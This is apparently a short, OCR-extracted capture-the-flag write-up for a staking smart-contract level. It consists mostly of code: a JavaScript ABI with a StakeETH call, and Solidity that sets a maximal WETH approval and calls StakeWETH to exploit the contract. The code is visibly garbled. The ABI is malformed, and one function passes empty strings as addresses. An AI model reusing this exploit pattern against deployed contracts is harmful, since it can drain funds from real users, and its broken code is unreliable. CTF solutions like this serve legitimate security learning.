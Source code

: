 ## Description
Made myself a Stacker because the call will continue to be made from the contract, so that msg.sender would be mine and not the contract's
```
const abi = [
	{
		"inputs": [],
		"name": "StakeETH",
		"outputs": [],
		"stateMutability": "payable",
		"type": "function"
	},
		"name": "Unstake",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	}
];

const MyContract = new web3.eth.Contract(abi, contract.address);
await MyContract.methods.StakeETH().send({from:player, value: toWei("0.002")})
```
The next step is to approve and call StakeWETH.
```
function check()public payable {
        bytes memory data = abi.encodeWithSignature("allowance(address,address)","","");
        bytes memory data2 = abi.encodeWithSignature("approve(address,uint256)","","");
        console.logBytes(data2);
    }

    function approve()public {
        uint256 amount = type(uint64).max;
        WETH.call(abi.encodeWithSelector(0x095ea7b3, address(stake),amount));
        (address(stake)).call(abi.encodeWithSignature("StakeWETH(uint256)", amount));
    }
```